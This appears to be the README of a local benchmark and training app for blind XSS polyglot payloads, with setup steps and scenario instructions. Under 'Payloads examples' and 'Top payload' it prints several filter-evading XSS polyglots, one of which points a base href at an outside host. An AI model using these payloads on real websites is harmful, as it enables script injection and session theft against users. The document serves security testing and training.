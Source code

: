 # bXSS Benchmark

![alt text](img/-bxss--is-centered-and-dark-blue.png)

## Objective

**bXSS Benchmark** is a web application designed to evaluate and benchmark the effectiveness of blind XSS (Cross-Site Scripting) polyglot payloads against a variety of real-world scenarios. It provides a structured environment for security researchers and developers to test, compare, and analyze payloads in different contexts, helping to improve web application security. It also can be use to train your XSS skills.

As the XSS gym training developed by brutelogic is no longer accessible, this project is a local alternative. I try to integrated his previous scenario as reference, but this integration isn't fully finnished.

It is a side project, do not hesitate to report issues. I will try to fix them as soon as possible !

PS: I would not recommend to expose this app pubicly, no security measures have been deployed and the app is still under development. 

---

## Features

- **Scenario-Based Testing:** Test payloads against a curated set of XSS scenarios.
- **Payload Management:** Add, edit, and manage XSS payloads.
- **Automated and Headless Testing:** Run tests automatically in headless mode.
- **Result Tracking:** View and analyze the effectiveness of payloads.
- **Extensible:** Easily add new scenarios via YAML files.
- **Training:** Practice your xss skills in different contexts.

---

## Installation

### Prerequisites

- [Docker](https://www.docker.com/) (optional, for containerized setup)

### Clone the Repository

```bash
git clone https://github.com/your-org/xss-benchmark.git
cd xss-benchmark
```


## Running the Application

```bash
docker compose up --build
sudo echo 'xsslab_app 127.0.0.1' >> /etc/hosts
```

The application will be available at [http://xsslab_app:9090](http://xsslab_app:9090).

---

## Running Tests

go to webapp, in the home page add your payload and run a benchmark.

Payloads examples:

```html 
Brutelogic bxss
JavaScript://%250Aalert?.(1)// '/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--> </Title/</Style/</Script/</textArea/</iFrame/</noScript> \74k<K/contentEditable/autoFocus/OnFocus= /*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->

Basic bxss
"><svg/onload=eval(atob('YWxlcnQoImJ4c3MiKQ=='))>// 

```

### Manual tests
You want to improve your payload and modify it manually?
1. Go to the Scenarios page
2. Click on the scenario you want to test.
3. In the url add "?payload=" followed by your payload
4. Press enter :)

---

## Adding a New Scenario

1. **Edit the Scenario YAML File**

   Add your new scenario to the main YAML file, e.g. `app/scenarios/TBD/scenarios.yaml`, following the existing format.

2. **Extract Scenario Files**

   Use the provided script to split scenarios into individual YAML files:

   ```bash
   bash scripts/extract_scenarios.sh
   ```

   This will generate scenario files in `app/scenarios/definitions/`.

3. **Verify Scenario Loading**

   The application loads scenarios from the definitions directory at startup or when you click on the button in the scenario web page.

4. **Test Your Scenario**

   - Visit `/scenarios` in the web UI to see your new scenario.
   - Test with different payloads, using the 'payload=' url parameter

---

## Directory Structure

```
app/
  controllers/
  models/
  scenarios/
    definitions/ // scenario defintions are there
    TBD/
  templates/
  static/
  app.py
scripts/
  extract_scenarios.sh
tests/
README.md
requirements.txt
```

---

## Contributing

- Fork the repository and create a feature branch.
- Submit pull requests with clear descriptions.
- Follow PEP8 and project-specific code style.

---

## License

[MIT License](LICENSE)

---

## Contact

For questions or support, please open an issue or contact the maintainer.



## Top payload

From Brutelogic - 110/115
```js
JavaScript://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->
```

Shortest alternative - 108/115
```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## TBD
For js_snippet insert the payload in a custom js file. Because there is redundancy for brutelogic xss gym.
Brutelogic filter is probably operate  via backslashing quotes.
add scenario : script src in head section 

